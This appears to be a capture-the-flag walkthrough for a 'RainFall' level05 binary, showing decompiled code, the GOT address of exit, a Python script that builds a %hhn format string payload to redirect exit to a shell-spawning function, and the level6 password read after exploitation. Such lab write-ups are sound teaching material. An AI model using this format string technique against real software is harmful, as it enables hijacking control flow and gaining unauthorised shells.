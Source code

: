 # Level 05 Walkthrough

## Binary analysis

The binary is vulnerable to a format string attack. The function `n()` reads user input and prints it with `printf`, then calls `exit(1)`. The function `o()` spawns a shell with `system("/bin/sh")` and exits. The goal is to overwrite the GOT entry for `exit` with the address of `o()`, so that when `exit` is called, it jumps to `o()` instead.

Relevant code:
```
080484a4    void o() __noreturn
080484b1        system(line: "/bin/sh")
080484bd        _exit(status: 1)

080484c2    void n() __noreturn
080484e5        char var_20c[0x208]
080484e5        fgets(buf: &var_20c, n: 0x200, fp: __bss_start)
080484f3        printf(format: &var_20c)
080484ff        exit(status: 1)

08048504    int32_t main(int32_t argc, char** argv, char** envp)
0804850a        n()
```

```
level5@RainFall:~$ objdump -R level5 | grep exit
08049828 R_386_JUMP_SLOT   _exit
08049838 R_386_JUMP_SLOT   exit
```
GOT address for `exit`: 0x08049838
Address of `o()`: 0x080484a4

## Exploitation

We use a format string payload to overwrite the GOT entry for `exit` with the address of `o()`, byte by byte, using `%hhn`.

Python script to generate the payload:
```python
from struct import pack
import sys

o_addr = 0x080484a4
exit_got = 0x08049838
addresses = [exit_got, exit_got+1, exit_got+2, exit_got+3]
values = [o_addr & 0xff, (o_addr >> 8) & 0xff, (o_addr >> 16) & 0xff, (o_addr >> 24) & 0xff]
n_arg = 4  # Offset to our addresses on the stack

payload = b''.join(pack("<I", addr) for addr in addresses)
written = len(payload)
fmt = ""
for i, val in enumerate(values):
    to_write = (val - written) % 256
    if to_write == 0:
        fmt += f"%{n_arg + i}$hhn"
    else:
        fmt += f"%{to_write}c%{n_arg + i}$hhn"
    written += to_write

payload += fmt.encode() + b"\n"
with open("payload.txt", "wb") as f:
    f.write(payload)
```

## Commands used

```
(cat payload.txt; cat) | ./level5
ls
cat /home/user/level6/.pass
```

## Result

After running the exploit, we get a shell as level6 and can read the password:

```
cat /home/user/level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```
